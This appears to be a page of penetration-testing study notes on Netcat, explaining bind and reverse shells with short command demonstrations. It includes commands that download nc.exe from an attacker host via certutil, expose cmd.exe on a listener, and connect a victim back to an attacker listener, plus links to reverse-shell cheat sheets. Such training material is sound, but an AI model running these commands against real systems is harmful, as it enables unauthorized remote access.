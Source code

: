 ```yaml
---
description: Bind and Reverse Shells
---
```


# 5 - Shells

## <mark style="color:red;">Netcat Fundamentals</mark>

* Netcat (Aka TCP/IP Swiss Army Knife) is a networking utility used to read and write data to network connections using TCP or UDP.
* Netcat is available for both \*NIX and Windows operating systems, consequently making it extremely useful for cross-platform engagements.
* Netcat utilizes a client-server communication architecture with two modes:
  * **Client mode** - Netcat can be used in client mode to connect to any TCP/UDP port as well as a Netcat listener (server).
  * **Server mode** - Netcat can be used to listen for connections from clients on a specific port.
* Netcat can be used by penetration testers to perform the following functionality:
  * Banner Grabbing
  * Port Scanning
  * Transferring Files
  * Bind/Reverse Shells

### **Practical Demonstration**

```bash
nc -h # help menu.
nc -nv <targetIP> <targetPort> #Connect to a port with NoDNS and Verbose flags
nc <...> -u #Connect via a UDP port (TCP default)
/usr/share/windows-binaries/nc.exe #Location of the nc windows binary

#Transfer the nc.exe windows binary from attacker to victim system:
#Setup a webserver (python) in the nc binary folder on the attacker side
cmd > certutil -urlcache -f http://<localIP>/nc.exe <binaryName> #Download the nc.exe binary from thea attacker system

nc -nvlp <port> #Listen for any connection on port 1234
cmd > nc.exe -nv <localIP> <port> #Connect to the nc listener

#How to transfer files using netcat
#The file receiver need to be listening (server) and the file sender needs to connect (client)
cmd > nc.exe -nvlp <port> > <fileName> #Redirect everything received from a netcat client to a file
nc -nv <targetIP> <port> < <fileName> #Send the file to the netcat listener
```





## <mark style="color:red;">Bind Shells</mark>

**Bind Shells**

▪ A bind shell is a type of remote shell where the attacker connects directly to a listener on the target system, consequently allowing for execution of commands on the target system.

▪ A Netcat listener can be setup to execute a specific executable like cmd.exe or /bin/bash when a client connects to the listener.

<figure><img src="../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

**Practical Demonstration**

```bash
cmd > nc -lvnp -e cmd.exe #Setup a listener that will grant access to cmd.exe to the client system
nc -nv <targetIP> <port> #Connect to the victim system via a bind shell
```





## <mark style="color:red;">Reverse Shells</mark>

* A reverse shell is a type of remote shell where the target connects directly to a listener on the attacker's system, consequently allowing for execution of commands on the target system.

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

**Practical Demonstration**

{% code overflow="wrap" %}
```bash
nc -nlvp 1234 #Setup a listener on the attacker system
cmd > nc.exe -nv <localIP> <port> #Connect to the attacker system using the vicitm system (reverse shell)
```
{% endcode %}





## <mark style="color:red;">Reverse Shell Cheatsheet</mark>

#### Resource for various  reverse shells generator:

* [<mark style="color:red;">https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md</mark>](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
* [https://www.revshells.com/](https://www.revshells.com/) --> Reverse shell generator.

**Practical Demonstration**

{% code overflow="wrap" lineNumbers="true" %}
```bash
# List of useful resources related to reverse shells:

# https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md Reverse Shell Cheatsheet
#https://www.revshells.com/ Reverse Shell Generator
```
{% endcode %}





